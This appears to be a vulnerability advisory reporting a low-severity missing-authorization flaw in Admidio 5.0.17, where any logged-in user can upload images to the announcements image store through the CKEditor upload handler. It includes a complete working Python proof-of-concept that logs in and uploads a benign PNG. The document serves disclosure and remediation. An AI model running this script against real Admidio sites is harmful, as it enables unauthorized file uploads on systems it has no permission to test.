


# Regular Users Can Upload Images to the Announcements Module Image Store

## Summary

In Admidio 5.0.17, a regular logged-in user can upload an image to the announcements module's image directory without having announcement editing or administration rights. The user sends `id=ann_description` to the CKEditor upload endpoint; the endpoint checks only that the user is logged in and does not verify permission to upload into the selected module. It stores the image under `adm_my_files/announcements/images` and returns a URL that serves the uploaded image.

## Affected products

- **Ecosystem:** Packagist
- **Package name:** `admidio/admidio`
- **Affected versions:** `5.0.17` (confirmed; other versions have not been verified)
- **Patched versions:** No patched version confirmed; leave this field unset until a fix is released

## Severity

- **Suggested severity:** Low
- **CVSS version:** 3.1
- **Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N`

## Weaknesses

- **CWE-862:** Missing Authorization

## Details

`system/ckeditor_upload_handler.php:21-24` includes the common bootstrap, requires a valid login, and reads the caller-controlled `id` parameter. It does not check whether the current user may edit announcements or upload assets for that module.

The `ann_description` value maps to the `announcements` directory (`system/ckeditor_upload_handler.php:44-70`). The handler then creates the module image directory, generates a unique filename, moves the uploaded file there, and checks that it is a valid image (`system/ckeditor_upload_handler.php:72-87`). On success it returns a `show_image.php` URL for the stored file (`system/ckeditor_upload_handler.php:89-99`). `system/show_image.php:19-37` serves an existing image by module and filename without an authentication check.

The normal announcement editing flow applies a separate permission check: `src/UI/Presenter/AnnouncementsPresenter.php:229-237` rejects editing an existing announcement unless it is editable by the current user, and rejects creating one when the user has no editable announcement categories. The upload endpoint does not apply those checks, so a regular user can write an image into the shared announcements image store directly.

This finding concerns unauthorized image storage and retrieval. It does not demonstrate permission to create or publish announcements, overwrite existing files, or upload executable server-side code.

## Proof of concept

Tested against a local Admidio 5.0.17 deployment using a regular account that has no announcement editing or administration permission. The PoC logs in, submits a harmless patterned PNG to the CKEditor upload handler with `id=ann_description`, and verifies that the returned image can be retrieved.

### Complete PoC script

The following is the complete `ckeditor_announcement_upload_poc.py` script used for reproduction. Configure the values in its `if __name__ == "__main__":` block before running it.

````python
import json
import struct
import urllib.error
import urllib.parse
import urllib.request
import zlib
from html.parser import HTMLParser
from http.cookiejar import CookieJar


class LoginFormParser(HTMLParser):
    def __init__(self):
        super().__init__()
        self.csrf_token = ""
        self.organization = ""
        self.in_organization_select = False

    def handle_starttag(self, tag, attrs):
        values = dict(attrs)
        if tag == "input" and values.get("name") == "adm_csrf_token":
            self.csrf_token = values.get("value", "")
        elif tag == "select" and values.get("name") == "org_shortname":
            self.in_organization_select = True
        elif tag == "option" and self.in_organization_select and "selected" in values:
            self.organization = values.get("value", "")

    def handle_endtag(self, tag):
        if tag == "select":
            self.in_organization_select = False


def png_chunk(chunk_type, data):
    return (
        struct.pack(">I", len(data))
        + chunk_type
        + data
        + struct.pack(">I", zlib.crc32(chunk_type + data) & 0xFFFFFFFF)
    )


def make_test_png():
    width, height = 160, 96
    colors = ((28, 190, 180), (255, 202, 40))
    canvas = [
        [colors[((x // 12) + (y // 12)) % 2] for x in range(width)]
        for y in range(height)
    ]

    def fill_rect(x, y, rect_width, rect_height, color):
        for row in range(y, y + rect_height):
            for column in range(x, x + rect_width):
                canvas[row][column] = color

    border_color = (20, 28, 48)
    fill_rect(10, 15, 140, 66, border_color)
    fill_rect(14, 19, 132, 58, (250, 250, 240))

    letters = {
        "P": ("11110", "10001", "10001", "11110", "10000", "10000", "10000"),
        "O": ("01110", "10001", "10001", "10001", "10001", "10001", "01110"),
        "C": ("01111", "10000", "10000", "10000", "10000", "10000", "01111"),
    }
    scale = 6
    text_x, text_y = 23, 27
    for letter in "POC":
        for row_index, bitmap_row in enumerate(letters[letter]):
            for column_index, pixel in enumerate(bitmap_row):
                if pixel == "1":
                    fill_rect(
                        text_x + column_index * scale,
                        text_y + row_index * scale,
                        scale,
                        scale,
                        (28, 42, 76),
                    )
        text_x += 7 * scale

    signature = b"\x89PNG\r\n\x1a\n"
    header = struct.pack(">IIBBBBB", width, height, 8, 2, 0, 0, 0)
    raw_image = bytearray()
    for row in canvas:
        raw_image.append(0)
        for red, green, blue in row:
            raw_image.extend((red, green, blue))
    image_data = zlib.compress(bytes(raw_image))
    return (
        signature
        + png_chunk(b"IHDR", header)
        + png_chunk(b"IDAT", image_data)
        + png_chunk(b"IEND", b"")
    )


def read_response(response):
    with response:
        return response.status, response.headers, response.read()


def verify(base_url, username, password, totp_code, timeout_seconds):
    base_url = base_url.rstrip("/")
    opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(CookieJar()))
    login_page_url = f"{base_url}/system/login.php"

    try:
        status, _, page = read_response(opener.open(login_page_url, timeout=timeout_seconds))
        if status != 200:
            raise RuntimeError(f"Login page returned HTTP {status}")

        parser = LoginFormParser()
        parser.feed(page.decode("utf-8", errors="replace"))
        if not parser.csrf_token:
            raise RuntimeError("Could not find the login form CSRF token")

        login_data = {
            "adm_csrf_token": parser.csrf_token,
            "usr_login_name": username,
            "usr_password": password,
            "usr_totp_code": totp_code,
        }
        if parser.organization:
            login_data["org_shortname"] = parser.organization

        login_request = urllib.request.Request(
            f"{base_url}/system/login.php?mode=check",
            data=urllib.parse.urlencode(login_data).encode("utf-8"),
            headers={
                "Accept": "application/json",
                "Content-Type": "application/x-www-form-urlencoded",
                "Referer": login_page_url,
                "X-Requested-With": "XMLHttpRequest",
            },
            method="POST",
        )
        status, _, login_body = read_response(opener.open(login_request, timeout=timeout_seconds))
        try:
            login_result = json.loads(login_body.decode("utf-8"))
        except (UnicodeDecodeError, json.JSONDecodeError):
            raise RuntimeError(f"Login failed (HTTP {status}); response was not JSON")

        if status != 200 or login_result.get("status") != "success":
            raise RuntimeError(f"Login failed: {login_result}")
        print("Login succeeded with the supplied account.")

        boundary = "----AdmidioPoCBoundary7MA4YWxk"
        png = make_test_png()
        multipart_body = (
            f"--{boundary}\r\n"
            'Content-Disposition: form-data; name="upload"; filename="admidio-poc.png"\r\n'
            "Content-Type: image/png\r\n\r\n"
        ).encode("ascii") + png + f"\r\n--{boundary}--\r\n".encode("ascii")

        upload_url = f"{base_url}/system/ckeditor_upload_handler.php?id=ann_description"
        upload_request = urllib.request.Request(
            upload_url,
            data=multipart_body,
            headers={
                "Accept": "application/json",
                "Content-Type": f"multipart/form-data; boundary={boundary}",
                "Referer": login_page_url,
                "X-Requested-With": "XMLHttpRequest",
            },
            method="POST",
        )
        status, _, upload_body = read_response(opener.open(upload_request, timeout=timeout_seconds))
        try:
            upload_result = json.loads(upload_body.decode("utf-8"))
        except (UnicodeDecodeError, json.JSONDecodeError):
            raise RuntimeError(
                f"Upload did not return JSON (HTTP {status}): "
                f"{upload_body.decode('utf-8', errors='replace')[:500]}"
            )

        image_url = upload_result.get("url")
        if status != 200 or not image_url:
            raise RuntimeError(f"Upload failed (HTTP {status}): {upload_result}")

        image_url = urllib.parse.urljoin(base_url + "/", image_url)
        image_query = urllib.parse.parse_qs(urllib.parse.urlsplit(image_url).query)
        if image_query.get("module") != ["announcements"]:
            raise RuntimeError(f"Unexpected returned image URL: {image_url}")

        image_request = urllib.request.Request(
            image_url,
            headers={"Accept": "image/*", "Referer": upload_url},
        )
        image_status, _, image_body = read_response(opener.open(image_request, timeout=timeout_seconds))
        if image_status != 200 or not image_body.startswith(b"\x89PNG\r\n\x1a\n"):
            raise RuntimeError("Upload returned a URL, but the image could not be retrieved as a PNG")

        print("VULNERABILITY CONFIRMED: the ordinary account uploaded an image to the announcements image area.")
        print(f"Returned image URL: {image_url}")
        print("The script uploaded one harmless patterned 160x96 PNG; remove it from the application's announcements images directory after verification.")
    except urllib.error.HTTPError as error:
        body = error.read().decode("utf-8", errors="replace")
        raise RuntimeError(f"HTTP {error.code} from {error.url}: {body[:500]}") from error
    except urllib.error.URLError as error:
        raise RuntimeError(f"Could not reach the Admidio server: {error.reason}") from error


if __name__ == "__main__":
    BASE_URL = "http://localhost"  # Admidio base URL
    USERNAME = ""  # Normal user's login name
    PASSWORD = ""  # Normal user's password
    TOTP_CODE = ""  # Current 2FA code, if enabled
    TIMEOUT_SECONDS = 15  # HTTP timeout

    try:
        verify(BASE_URL, USERNAME, PASSWORD, TOTP_CODE, TIMEOUT_SECONDS)
    except RuntimeError as error:
        print(f"Verification failed: {error}")
````

### Run the script

1. In the script's `__main__` block, set `BASE_URL` to the Admidio base URL, and enter the regular user's `USERNAME` and `PASSWORD`. If two-factor authentication is enabled, enter the current code in `TOTP_CODE`; otherwise leave it empty.
2. From PowerShell, run:

   ```powershell
   py "D:\desktop\VulnPoC\Admidio_v5.0.17\ckeditor_announcement_upload_poc.py"
   ```

3. A successful run reports `VULNERABILITY CONFIRMED` and prints the image URL returned by the upload endpoint. The screenshot below shows the script execution result.

   

### Verify the uploaded image

Open the URL printed by the script in a browser. In this reproduction, the uploaded image was available at:

`http://localhost/system/show_image.php?module=announcements&file=20261026-133001_84520k1gqtqislge.png`

The image is served from the `announcements` module image store even though the account has no announcement editing permission. The browser result is shown here:



After verification, remove the generated PNG from the application's `adm_my_files/announcements/images` directory.

## Impact

A regular authenticated user can place additional valid image files in the shared announcements image store and retrieve them through the application's image-serving endpoint. This bypasses the module-specific authorization applied to announcement editing and may allow unauthorized use of the application as an image host or allow unapproved assets to accumulate in a module-managed directory.

The demonstrated impact is limited to image files accepted by the application's extension and image validation checks. No announcement content modification, overwrite of existing files, or code execution is demonstrated.